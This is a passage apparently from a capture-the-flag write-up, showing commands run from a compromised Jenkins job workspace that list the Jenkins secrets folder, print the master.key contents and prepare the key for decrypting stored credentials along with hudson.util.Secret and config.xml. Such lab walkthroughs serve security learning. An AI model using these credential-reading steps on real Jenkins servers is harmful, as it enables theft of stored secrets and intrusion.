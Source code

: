 Both require the `config.xml`, as well as `master.key` and `hudson.util.Secret`, but from `/secrets/`:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\secrets 

    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/20/2021  10:08 PM                filepath-filters.d                                                    
d-----       10/20/2021  10:08 PM                whitelisted-callables.d                                               
-a----       10/20/2021  10:26 PM            272 hudson.console.AnnotatedLargeText.consoleAnnotator                    
-a----       10/20/2021  10:26 PM             32 hudson.model.Job.serverCookie                                         
-a----       10/20/2021  10:15 PM            272 hudson.util.Secret                                                    
-a----       10/20/2021  10:08 PM             32 jenkins.model.Jenkins.crumbSalt                                       
-a----       10/20/2021  10:08 PM            256 master.key                                                            
-a----       10/20/2021  10:08 PM            272 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY     
-a----       10/20/2021  10:21 PM              5 slave-to-master-security-kill-switch  
```

`master.key` looks like it’s stored in hex:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c cat ..\..\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
```

In any case that the thing is not 256 bytes we can trim the new line by using the following commands.&#x20;

```
cat master.key | tr -d '\n' | sponge master.key 
╭─      /home/kali/Object ▓▒░───────────────────────────────────────────────────────────────░▒▓ ✔  root@kali 
╰─ cat master.key                                 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19#                                                                                           ╭─      /home/kali/Object ▓▒░───────────────────────────────────────────────────────────────░▒▓ ✔  root@kali 
╰─ wc -c master.key
256 master.key

```
